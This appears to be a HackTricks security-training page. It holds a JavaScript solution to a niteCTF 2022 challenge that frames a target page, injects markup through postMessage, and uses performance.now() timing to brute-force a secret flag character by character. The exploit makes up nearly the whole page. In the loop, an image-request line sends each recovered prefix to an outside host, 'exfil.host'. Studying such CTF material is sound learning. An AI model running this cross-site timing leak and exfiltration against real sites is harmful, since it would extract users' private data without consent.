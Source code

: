 # performance.now example

{{#include ../../banners/hacktricks-training.md}}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
  let w = frame.contentWindow
  w.postMessage(
    { op: "preview", payload: '<img name="enable_experimental_features">' },
    "*"
  )
  await sleep(1)
  w.postMessage({ op: "search", payload: flag }, "*")
  let t1 = performance.now()
  await sleep(1)
  return performance.now() - t1 > 200
}

async function main() {
  let alpha =
    "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
  window.frame = document.createElement("iframe")
  frame.width = "100%"
  frame.height = "700px"
  frame.src = "https://challenge.jsapi.tech/"
  document.body.appendChild(frame)
  await sleep(1000)

  let flag = "nite{"
  while (1) {
    for (let c of alpha) {
      let result = await Promise.race([
        check(flag + c),
        new Promise((res) =>
          setTimeout(() => {
            res(true)
          }, 300)
        ),
      ])
      console.log(flag + c, result)
      if (result) {
        flag += c
        break
      }
    }
    new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
  }
}

document.addEventListener("DOMContentLoaded", main)
```

{{#include ../../banners/hacktricks-training.md}}



